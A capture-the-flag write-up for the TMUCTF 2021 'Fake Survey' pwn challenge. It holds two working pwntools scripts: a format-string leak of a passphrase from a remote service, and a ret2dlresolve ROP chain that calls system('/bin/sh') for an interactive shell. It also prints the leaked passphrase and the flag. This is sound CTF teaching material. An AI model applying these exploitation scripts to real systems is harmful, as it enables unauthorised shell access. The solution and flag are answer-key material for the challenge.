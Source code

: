 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge has two steps. In the first step we have to use `format string` vulnerability to leak the needed passPhrase. In second step we can use `return ro dl_reslove` technique.   
Here is the script used for the first step (also available in [solve_step1.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step1.py)):    
```python
import pwn
import time

i = 1
a = []
while i != 15:
    r = pwn.remote("185.235.41.205", 7050)
    p = "%" + str(i) + "$p"
    r.sendline(p.encode())
    r.recvlines(21)
    admin_pass = r.recvline().decode().split(" ")[-1]
    print(admin_pass)
    a.append(admin_pass)
    i += 1

flag = []
for k in a:
    try:
        flag.append(pwn.p32(int(k, 16)).decode("latin-1"))
    except Exception as e:
        pass

print("".join(flag))
```   
And for `return to dl_resove` I used `Ret2dlresolvePayload` class of `pwntools`. Here is its script (also available in [solve_step2.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step2.py)):  
```python
from pwn import *

context.binary = elf = ELF('./fakesurvey')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote("185.235.41.205", 7050)
p.sendline("CPRSyRMOFa3FVIF".encode())
p.sendline(fit({64 + context.bytes * 3: raw_rop, 200: dlresolve.payload}))
p.interactive()
```   
The flag:   
```
TMUCTF{m4yb3_y0u_u53d_7h3_574ck_4nd_r37urn3d_70_dl_r350lv3}
```  

